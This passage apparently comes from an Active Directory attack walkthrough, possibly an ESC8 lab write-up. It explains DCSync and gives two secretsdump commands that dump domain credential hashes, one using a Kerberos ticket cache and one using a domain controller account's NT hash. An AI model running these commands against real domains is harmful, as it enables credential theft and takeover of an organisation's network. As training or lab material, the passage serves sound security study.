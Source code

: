 This mechanism is called [DCSync](https://www.thehacker.recipes/a-d/movement/credentials/dumping/dcsync)  (dump of the DC information). It can be use by domain administrators for backups and by attackers to retrieve credentials. We can use tools like `secretsdump` to do that using a Kerberos ticket : 

```bash
export KRB5CCNAME=/workspace/esc8/CCACHE_FILE.ccache
secretsdump -k -no-pass $DOMAIN.LOCAL/"$MACHINE"@$DC_NAME.$DOMAIN.local
```

Or, we could just dump all the hash of the domain using the `NT` hash instead of the `TGT`:

```bash
secretsdump -hashes ":$NT_HASH_OF_DC_ACC" -no-pass $DOMAIN.LOCAL/"$MACHINE"@$DC_NAME.$DOMAIN.local
```
